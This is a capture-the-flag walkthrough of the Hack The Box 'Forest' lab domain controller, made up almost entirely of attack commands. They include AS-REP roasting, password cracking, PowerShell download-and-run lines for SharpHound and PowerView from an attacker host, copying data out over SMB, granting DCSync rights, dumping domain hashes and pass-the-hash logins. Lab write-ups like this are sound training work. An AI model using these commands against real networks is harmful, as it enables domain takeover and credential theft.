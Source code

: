 ```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 > ldapsearch.txt
enum4linux 10.10.10.161
./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/’
crackmapexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
SharpHound.ps1
BloodHound
CanPSRemote
secretsdump.py
psexec.py / wmiexec.py
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.161
```
![image](https://github.com/regarmulia/HTB/assets/33616880/09d1c960-d99a-4595-8c11-b9c0d1612465)


```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 > ldapsearch.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2d1bca0f-df1d-4d9e-8722-41643add32cc)


```
enum4linux 10.10.10.161
```
![image](https://github.com/regarmulia/HTB/assets/33616880/356699b9-c822-433f-9532-4c79b9d23d13)
![image](https://github.com/regarmulia/HTB/assets/33616880/b8648246-f916-427a-af99-942c65d17d42)


```
./GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/’
john hash_svc -w=/usr/share/wordlists/rockyou.txt
svc-alfresco | s3rvice
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fac35ad7-2c9f-48f8-a66e-09bcfab14d92)


```
crackmapexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0cb0e9ed-0fcf-4be0-9e0c-4983ea641a52)


# SharpHound
```
iex(new-object net.webclient).downloadstring("http://10.10.14.13/SharpHound.ps1")
```
```
invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```
![image](https://user-images.githubusercontent.com/33616880/228747631-d9e4cd27-7ef2-418b-83f3-bf65f8a4a100.png)
![image](https://user-images.githubusercontent.com/33616880/228747656-8d33da1f-b566-403e-a2f3-a4f822120c86.png)


# Copy to Kali
```
./smbserver.py share . -smb2support -username df -password df
```
```
net use \\10.10.14.13\share /u:df df
copy 20230329201446_BloodHound.zip \\10.10.14.13\share\
```
![image](https://user-images.githubusercontent.com/33616880/228748422-ad9ea303-8024-44d4-bcc5-27d3085d3a24.png)
![image](https://user-images.githubusercontent.com/33616880/228748440-68cde53c-8e2b-44f7-b672-7da04a1a6ae7.png)
![image](https://user-images.githubusercontent.com/33616880/228748470-44ad4e6d-1f5d-4938-8850-657fcb3f07d8.png)

# Open BloodHound
```
neo4j console
```
```
./BloodHound --no-sandbox
```
![image](https://user-images.githubusercontent.com/33616880/228749045-07d902b9-414d-4c06-9d03-51c1f168af9a.png)
![image](https://user-images.githubusercontent.com/33616880/228749059-b033ae44-a51a-4bc8-99e9-e506912330b6.png)
![image](https://user-images.githubusercontent.com/33616880/228749077-97736392-a3bf-487f-a241-7185071cb89c.png)


# PrivExec
```
iex(new-object net.webclient).downloadstring("http://10.10.14.13/PowerView.ps1")
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword)
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
![image](https://user-images.githubusercontent.com/33616880/228749660-817a3ba7-36da-47d6-b7a4-0931bc4ab696.png)
![image](https://user-images.githubusercontent.com/33616880/228749695-ae4ac63d-d4de-4ee2-983b-45b42c936ba2.png)

```
./secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
![image](https://user-images.githubusercontent.com/33616880/228750251-f0a28183-07eb-45dc-8dc9-9e196446d932.png)
![image](https://user-images.githubusercontent.com/33616880/228750276-e41cdd61-01d0-4e2a-a8f0-297a4f19f098.png)

```
./wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
```
![image](https://user-images.githubusercontent.com/33616880/228750594-596cfeb8-b198-4a99-9807-590e11acd089.png)
OR
```
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
```
![image](https://user-images.githubusercontent.com/33616880/228751819-f64860be-ce06-4835-9eb7-75f16ecb31e3.png)
